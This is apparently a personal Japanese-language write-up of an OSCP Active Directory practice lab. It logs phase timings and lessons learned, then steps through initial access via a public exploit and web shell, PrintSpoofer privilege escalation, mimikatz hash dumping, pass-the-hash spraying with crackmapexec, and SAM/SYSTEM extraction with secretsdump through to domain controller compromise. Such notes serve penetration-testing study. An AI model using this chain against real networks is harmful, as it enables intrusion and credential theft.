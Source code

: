 # AD in OSCP A
## Time
iniaccess = 3H 16min
foothold = 3H 23min
privesc = 3H 20min
abusing DC = 3H

※iniaccessはdiscordヒントあり。exploitコードのデバッグは自分でできたのでおｋ
※その他は全部Discordめっちゃみた。歯が立たへん。頑張るしか。

## 教訓
- 全ポート、特に80系はブラウザからアクセスして確認すること(nmapにサービスのらないものがあるので)
- crackmapexecは-HでNTLMを指定してパスワードスプレーできるので、横展開とかで使うべき。
- ファイルアップロードとかでうまくいかないときはrevertもバンバンした方が良い。
- Windows都のファイルアップロード等のファイル共有はimpacket-smbserver.py一択。
- ポートフォワーディングはligolo-ngが神。
- crackmapexecもPass the Hashいける。

## 手順
1. rustscanでポートのチェックから。22, 80, 81, 135, 139, 445, 3306, 3307とかが空ている。
2. とりあえず135のrpc匿名ログインからチェック。rpcclient -U "" -N 192.168.174.66かます。ディナイされる。
3. 139と445もあるのでSMBの匿名ログオンチェック。smbclient --no-pass -L <IP>。ディナイされる。
4. port 80でWebの手動チェック。その間にffufしておく。scriptが見つかったりユーザ名のリスト作ったりできた。crackmapexec等も試すがDCと通信できないのでここからiniaccessにつなげられず。
5. 80ポートでつまっていたのでDiscordでヒント見る。81ポートをブラウザでチェックしろと言われた。確かに。81の存在を忘れてた。チェックしてみる。
6. あやしげなサイト発見。ffufして怪しいディレクトリや認証情報とかも見つかるものの、認証情報はここでは使えず。
7. でぃぐってpublic exploitを見つけてくる。使ってみたが上手く動かず。pythonのコードチェックして、わんちゃんパスが悪そうだったのでいじくってみたら動いた。ここでiniaccessをウェブシェル経由で取得。ちなみにiniaccessからfootholdにちゃんともっていくのがめちゃくちゃ大変。NW遅すぎてPHPのファイルやバイナリのアップロードに苦戦。なんかうまくいかないときはrevertした方が良い。
===
権限昇格&横展開
8. とりま迷う。whoami /privしたらSeInpersonateがenabledになってる。でぃぐる。win10の特定バージョン以上だとpotatoが使えないぽいが、printerSpooferでいける。ファイルアップロードしてコマンド打てば簡単に権限昇格。ちなみにファイルアップロードはsmbserverをkali側で立ててから、net use Z:\\<attacker IP>\shareでやるといい。
9. NT Authority権限はとれてるので、sharphoundとかmimikatzを実行していく。mimikatzがGood。
10. mimikatzで複数のユーザのNTLMハッシュをゲット。ユーザ名のリストをPowerViewの力でドメイン内から探索。ユーザ名のリストも作成。
11. crackmapexecでPass the Hashを使ってパスワードスプレーする。ターゲットはms02のやつ。一人刺さるので認証情報OK
12. ここでSMBにアクセスすると思いきや、ちゃんとnmapの結果を見よう。evil-winrmでNTLMを使ってms02に入る。
13. 手動で適当にみていくと、Windows.backupてきなフォルダがあるのでそこからSAMとSYSTEMを取ってくる。
14. evil-winrmはdownloadを使ってローカルにファイルをもってこれるので便利。
15. impacket-secretsdump.pyを使ってSAMとSYSTEMから過去のNTLMを復元する。DC管理者のNTLMをゲット。
16. DC管理者はsharphoundでわかってたので、kaliからNTLMを使ってimpacket-psexec.pyを使ってDCにアクセス。おわり。

## 総括
- むずすぎた。ADやりこむしか。
- ほんまむずかった。